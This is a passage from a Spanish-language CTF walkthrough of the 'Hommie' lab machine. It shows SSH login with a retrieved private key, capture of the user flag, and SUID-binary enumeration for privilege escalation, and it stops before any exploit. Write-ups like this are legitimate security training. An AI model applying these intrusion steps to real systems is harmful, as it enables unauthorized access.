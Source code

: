 
### SSH

Ahora nos vamos a conectar vía SSH con la usuaria *alexia* y la clave privada recién descargada, pero antes tenemos que darle el permiso correcto al archivo:

~~~
❯ chmod 600 id_rsa
❯ ssh -i id_rsa alexia@$ip                                                                                                                                            
Linux hommie 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Feb  1 10:40:40 2023 from 192.168.1.136
alexia@hommie:~$ ls
user.txt
alexia@hommie:~$ cat user.txt
~~~

Ya tenemos la flag de user, toca escalar privilegios.


## Escalada de privilegios

Como hacemos siempre, vamos a mirar la lista de permisos que tenemos para usar privilegios de otro usuario:

~~~
alexia@hommie:~$ sudo -l
-bash: sudo: command not found
~~~

Por ahí no vamos bien, vamos a ver si tenemos algún binario SUID del que nos podamos aprovechar:

~~~
alexia@hommie:~$ find / -type f -perm -4000 -ls 2>/dev/null
      140     20 -rwsr-sr-x   1 root     root        16720 Sep 30  2020 /opt/showMetheKey
   146900    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
   268129     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   132307     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   131120     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
   131117     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
   134620     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
   134946     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
   131118     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
   131121     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
   134473     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
   134948     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount
~~~
